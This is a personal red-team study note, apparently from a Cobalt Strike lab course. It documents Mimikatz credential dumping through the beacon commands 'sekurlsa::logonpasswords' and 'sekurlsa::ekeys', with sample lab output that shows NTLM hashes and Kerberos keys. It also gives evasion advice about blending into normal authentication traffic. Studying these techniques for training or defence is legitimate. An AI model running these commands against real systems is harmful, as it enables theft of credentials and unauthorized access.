 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Mimikatz]]  
___

## Description:
Mimikatz is infamous for being able to dump plaintext passwords or password hashes from memory.

This requires local admin privileges on the host.

## Installation
Buillt into CobaltStike



## Commands
Cobalt Strike also has a short-hand command for this called `logonpasswords`.

```
beacon> mimikatz sekurlsa::logonpasswords

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122
    msv :   
     [00000003] Primary
     * Username : jking
     * Domain   : DEV
     * NTLM     : 4ffd3eabdce2e158d923ddec72de979e
     * SHA1     : b081158da72409badae7b849d12097f2fa02c119
     * DPAPI    : 4180363cf5b2faa2130098adcb3a1db4
    tspkg : 
    wdigest :   
     * Username : jking
     * Domain   : DEV
     * Password : (null)
    kerberos :  
     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
    ssp :   
    credman :

```


### eKeys

This Mimikatz module will dump Kerberos encryption keys. Since most Windows services choose to use Kerberos over NTLM, leveraging these over NTLM hashes makes more sense for blending into normal authentication traffic.

```
beacon> mimikatz sekurlsa::ekeys

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122

     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
     * Key List :
       aes256_hmac       a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
       rc4_hmac_nt       4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old      4ffd3eabdce2e158d923ddec72de979e
       rc4_md4           4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_nt_exp   4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old_exp  4ffd3eabdce2e158d923ddec72de979e
```






___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:06 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
